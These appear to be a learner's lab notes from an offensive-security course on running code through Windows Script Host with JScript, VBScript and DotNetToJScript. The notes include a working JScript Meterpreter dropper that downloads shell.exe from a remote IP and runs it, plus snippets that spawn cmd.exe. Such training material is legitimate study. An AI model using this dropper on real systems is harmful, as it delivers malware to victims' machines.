 # chapter 4 client side code execution with windows script host

Jscript is a dialect of JavaScript developed and owned by Microsoft that is used in Internet 
Explorer. It can also be executed outside the browser through the Windows Script Host,
197 which 
can execute scripts in a variety of languages

in order to check execution we can see default application by file type.

### Execution of jscript on windows

Js script can be directly executed onwindows thats why they are important

As mentioned previously, executing Jscript outside the context of a web browser bypasses all 
security settings. This allows us to interact with the older ActiveX198 technology and the Windows 
Script Host engine itself. Let’s discuss what we can do with this combination.

As shown in the code in Listing 116, we can leverage ActiveX by invoking the ActiveXObject199
constructor by supplying the name of the object. We can then use WScript.Shell to interact with 
the Windows Script Host Shell to execute external Windows applications. For example, we can 
instantiate a Shell object named “shell” from the WScript.Shell class through the ActiveXObject
constructor to run cmd.exe through the Run command

Checking on windows 10 the extension  is jse

![](open_cmd.png)

### Exercises

1. Create a simple Jscript file that opens an application.

made at: open_application.jse

2. Look through the list of default applications related to file types. Are there any other 
interesting file types we could leverage?

- .msc
- .perl
- .VBE
- .vbs
- .WSF
- .WSH

3. The .vbs extension is also linked to the Windows Script Host format. Write a simple VBScript 
file to open an application

made at: open_chrome.vbs

### Jscript Meterpreter Dropper

creating a dropper to inject the payload into.

dropper.jse works but is detected as malicious.

```js
var url = "http://10.10.6.12/shell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
 var Stream = WScript.CreateObject('ADODB.Stream');
 Stream.Open();
 Stream.Type = 1;
 Stream.Write(Object.ResponseBody);
 Stream.Position = 0;
 Stream.SaveToFile("met.exe", 2);
 Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("shell.exe");
```

### 4.1.2.1 Exercises
1. Replicate the Jscript file from this section.

done 
2. Modify the Jscript code to make it proxy-aware with the setProxy method. You can use the 
Squid proxy server installed on the Windows 10 development machine.

# Jscript and C#

Since there’s no known way to invoke the Win32 APIs directly from Jscript, we’ll instead embed a 
compiled C# assembly in the Jscript file and execute it. This will give us the same capabilities as 
PowerShell since we will have comparable access to the .NET framework. 

# introduction to visual studio

we need to connect our kali instance with window

install on kali

```
sudo apt install samba
sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
sudo nano /etc/samba/smb.conf
```
add this in the conf file

```
[visualstudio]
path = /home/kali/data
browseable = yes
read only = no
```

we need to create a samba user that can access the share and then start when required.

```
sudo smbpasswd -a kali
```

starting the samba server

```
sudo systemctl start smbd
sudo systemctl start nmbd
```
make a shared folder and open up the permissions for visual studio

```
mkdir /home/kali/data
chmod -R 777 /home/kali/data
```

With everything set up, we’ll turn to our Windows 10 development machine. First, we’ll open the 
new share in File Explorer (\\192.168.119.120 in our case). When prompted, we’ll enter the 
username and password of the newly created SMB user and select the option to store the 
credentials.

Staring a simple helloworld application

select visual studio
create new project
language select C#
use console app(.Net framework)

opening the app we see

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
namespace ConsoleApp1
{
 class Program
 {
 static void Main(string[] args)
 {  
    console.WriteLine("Hello world");
 }
 }
}
```

### 4.2.1.1 Exercises
1. Set up the Samba share on your Kali system as shown in this section.

![](samba.png)

   
2. Create a Visual Studio project and follow the steps to compile and execute the “Hello World” 
application.


```
Hello World!

C:\Users\HP\source\repos\JscriptHelloWorld\bin\Debug\net5.0\JscriptHelloWorld.exe (process 7148) exited with code 0.
To automatically close the console when debugging stops, enable Tools->Options->Debugging->Automatically close the console when debugging stops.
Press any key to close this window . . .

```

# Using DotNetToJsScript

downloading DotNetTojscript
using https://github.com/tyranid/DotNetToJScript


looking into the project using vs studio, we see that 
Jscript will eventually execute the content of the TestClass method, which is inside the TestClass
class. In this case, we are simply executing the MessageBox.Show220 method.

Notice that the Solution Explorer lists a second project (DotNetToJscript) that converts the 
assembly into a format that Jscript can execute.

after using relaese/build we find that we need DotNetToJscript.exe , NDesk.Options.dll and Exampleassembly.dll in order to rn the DotnetToJscript program.

we can use the script as -

DotNettoJScript.exe ExampleAssembly.dll --lanf=Jscript --ver=v4 -o demo.js.

![](./DotnetTojs.png)


using dotnettojs script we an execute any arbritary C# script as JSScript

### 4.2.2.1 Exercises
1. Set up the DotNetToJscript project, share it on the Samba share, and open it in Visual Studio.
2. Compile the default ExampleAssembly project and convert it into a Jscript file with 
DotNetToJscript.
3. Modify the TestClass.cs file to make it launch a command prompt instead of opening a 
MessageBox

```
 string command = "notepad.exe";
 Process.Start("cmd.exe", "/C" + command);
```

## using win32 api on C#

![](chash.png)

# shellcode runner in C#

notworking because of shellcode problem







